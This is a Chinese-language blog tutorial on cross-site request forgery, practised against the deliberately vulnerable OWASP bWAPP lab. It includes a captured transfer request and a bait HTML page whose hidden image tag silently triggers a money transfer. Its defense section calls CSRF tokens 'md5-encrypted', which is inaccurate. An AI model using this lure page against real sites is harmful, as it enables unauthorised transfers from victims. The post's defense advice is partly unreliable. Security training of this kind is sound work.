 ```yaml
---
published: true
title: CSRF (Cross Site Request Forgery) 跨站請求偽造攻擊 in OWASP
layout: post
author: David
modified: 2016-09-09
category: [ 資訊安全 , OWASP Top10 ]
tags:
- csrf
- cross-site-request-forgery
- NetSecurity
- owasp top10
- OWASP
- Burp-Suite
- cookies
comments: true
---
```

<div class='post-body entry-content' id='post-body-542148310267796862' itemprop='description articleBody'>
CSRF全名為Cross-Site-Request-Forgery&#65292;跨站請求偽造攻擊&#12290;<br />
簡而言之&#65292;駭客利用你瀏覽網站時尚未過期的session來進行偽造&#65292;發送惡意request&#12290;<br />
<br />
舉個例子&#65292;以網路銀行為例&#65292;你向網銀發送帳號密碼進行驗證&#65292;驗證通過後server會回傳驗證成功&#65292;可以進行所有&#8220;登入後才可以進行的動作&#8221;&#12290;<br />
這時候駭客利用網銀尚未通知閒置過久(session未過期)&#65292;可以利用社交工程或者是其他方式讓user在不知不覺中發送request&#12290;<br />
<br />
如何做到就是我們以下要講的&#12290;<br />
<br />
我們利用原先就有CSRF漏洞的OWASP bWApp來進行練習&#12290;<br />
目的就是讓user讓不知不覺的情況下成功被轉帳&#12290;<br />
<br />
step1.我們必須要知道&#8220;轉帳&#8221;這個步驟在web端如何發送request&#12290;<br />
我們可以用自己電腦來得到這個連結<br />
先將瀏覽器設定代理伺服器(Proxy)<br />
使用Burp-Suite內建proxy工具進行request攔截<br />
<a href="http://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" imageanchor="1"><img border="0" height="200" src="https://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" width="320" /></a><br />
<br />
可以看到在我們設定proxy之後&#65292;點擊"transfer"網頁會有點卡住<br />
那是因為我們的request被攔截下來了<br />
這時候我們可以看到這一段語法是轉帳的執行語法<br />
<span style="color: red;">GET /bWAPP/csrf_2.php?account=123-45678-90&amp;amount=0&amp;action=transfer HTTP/1.1</span><br />
<span style="color: red;">account=轉出帳號</span><br />
<span style="color: red;">amount=轉出金額</span><br />
p.s.按Forward可以繼續將request送出&#65292;甚至可以修改再送出&#12290;<br />
<br />
step2.撰寫釣魚網頁<br />
為了簡化過程&#65292;我們簡化網頁內容&#65292;實際進行攻擊的網頁通常不會這麼簡單&#12290;<br />
<a href="http://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" imageanchor="1"><img border="0" height="200" src="https://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" width="320" /></a><br />
<br />
<br />
##################################<br />
&lt;html&gt;<br />
&lt;head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;meta charset="utf-8"&gt;<br />
&lt;/head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;body&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>泰勒絲愛你哦 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>這是泰勒斯的電話跟照片 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>0931097313 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>點擊照片到我的blog看更多照片哦&lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;/font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;img src="http://172.20.10.2/bWAPP/csrf_2.php?account=123-45678-90&amp;amount=200&amp;action=transfer=a.jpg"&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;a href="http://www.google.com.tw" target=""&gt; &nbsp;&lt;img src="http://www.daliulian.org/imgs/image/12/1251496.jpg"&gt;<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/a&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/body&gt;<br />
&lt;/html&gt;<br />
#################################<br />
<br />
<br />
step3. 尋找目標下手<br />
撰寫完成只要找尋目標&#65292;使user成功點擊網站&#65292;即可完成轉帳&#12290;<br />
user不需要點擊任何圖片或者是網址&#65292;只需要看到這個頁面就可以進行CSRF攻擊了&#12290;<br />
<a href="http://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" width="320" /></a><br />
<br />
step4.我們回到剛剛的bWApp帳戶頁面&#65292;重新整理後會發現已經如程式碼所寫的轉出200 EUR了&#65292;然後這段時間user沒有對這個網頁進行任何動作&#12290;<br />
<a href="http://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" width="320" /></a><br />
<br />
總結&#65306;<br />
這是因為user的request已經被我們依樣畫葫蘆偽造了一份&#65292;並加以修改回傳給銀行server&#65292;然而銀行也未查覺到有任何異常&#65292;在銀行看來就是user發送的一般請求而已&#12290;<br />
<br />
防禦&#65306;<br />
現在網路服務皆會設定閒置過期時間(session-time-out)&#65292;閒置過久將會被自動登出&#65292;減少被偽造的機會&#12290;<br />
而有些較大的web server&#65292;例如facebook&#12289;google...etc會設有token&#65292;所謂token就是利用演算法算出一組unique key&#65292;再經由md5加密送出&#65292;user做任何動作都需要token驗證&#65292;使駭客無從偽造&#65292;因為他沒有使用你當前的瀏覽器就無法得知你目前的token是什麼&#12290;<br />
當然你會說&#65292;md5加密還是可以破解&#65292;沒錯&#65281;所以重點在於演算法的精密度&#65292;越精密的演算法&#65292;駭客越無從猜測&#65292;也就無從破解&#12290;<br />
目前ASP.Net 的mvc上的CSRF防禦已經非常普遍化了&#65292;可以利用簡單的程式碼計算token&#65292;加以防禦簡單的CSFR攻擊&#12290;<br />
<br />
經由以上簡單的CSRF滲透測試&#65292;雖然現今大部分網頁服務都有防禦CSRF&#65292;但是我們必須知道如果不使用的話&#65292;盡可能登出網頁服務&#65292;就可以避免造成不必要的風險&#12290;<br />
<br />
<div style="text-align: right;">
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;2016-09-09 , David in Taipei.</div>
